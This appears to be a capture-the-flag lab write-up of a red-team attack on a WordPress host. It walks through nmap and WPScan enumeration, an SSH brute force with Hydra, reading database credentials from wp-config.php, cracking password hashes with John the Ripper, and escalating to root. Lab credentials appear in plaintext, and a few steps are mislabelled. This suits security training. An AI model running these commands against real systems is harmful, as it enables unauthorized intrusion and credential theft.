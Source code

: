 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

command: $ nmap -sV 192.168.1.110

output:

This scan identifies the services below as potential points of entry:
- Target 1
  Port 22/TCP Open SSH
  Port 80/TCP Open HTTP
  Port 111/TCP Open rcpbid
  Port 139/TCP Open netbios-ssn
  Port 445/TCP Open netbios-ssn

 Critical Vulnerabilites
The following vulnerabilities were identified on each target:

-Target 1
  User Enumeration (WordPress site)
  Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
  Brute forced ssh to gain access into the system.
  Secure files are not hidden away.
  Misconfiguration of User Privileges/ Privilege Escalation
 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}


 

    - **Exploit Used**
•	WPScan to enumerate users on the Target1 WordPress site.
•	Command: $ wpscan --url 192.168.1.110/wordpress $ wpscan --url 192.168.1.110 --enumerate -u
 
•	Targeting the user michael
•	Small manual Brute Force attack to guess/finds Michael's password.
•	First, the user's password is weak and obvious.
•	Second, for practice, Hydra can be used to crack Michaels's password:
o	Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh  
•	Capturing Flag1: SSH in as Michael, transvering through directories and files.
•	The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
o	Commands:
	ssh michael@192.168.1.110
	password: michael
	cd /var/www/html
	ls -l
	nano services.html





 - `flag2.txt`: {fc3fd5Bdcdad9ab23facac6e9a365e581c33}

 

    - **Exploit Used**

  The same exploit used to gain flag1.
    
  •	Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
o	Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found.
o	Commands:
	ssh michael@192.168.1.110
	password: michael
	cd /var/www
	ls 
	cat flag2.txt


- `flag3.txt`: {afc01ab56b50591e7dccf93122770cd23}


 

Exploit Used:

•	Same exploits to gain Flag1 and Flag2.
•	Capturing Flag3: Access the MYSQL database.
o	Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
•	Commands:
o	mysql -u root -p 
o	Enter password: R@v3nSecurity
o	show databases;
o	Show tables
o	select * from wp_posts;

 

- `flag3.txt`: {715dea6c055b9fe3337544932F2941ce}

 

Exploit Used:

•	Unsalted password hash and use of the privilege escalation with Python.
•	Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
•	Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
•	The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
o	Commands:
o	mysql -u root -p 
o	Enter password: R@v3nSecurity
o	show databases;
o	Show tables
o	select * from wp_posts;
•	On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
•	Command: - john wp_hashes.txt

 

•	Once the user Steven's password hash was cracked, the next step was to SSH into the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
o	Commands:
	ssh steven@192.168.1.110
	password: pink:84
	sudo -l
	su root
	password: toor
	find /-iname flag*
	cat /root/flag4.txt

 
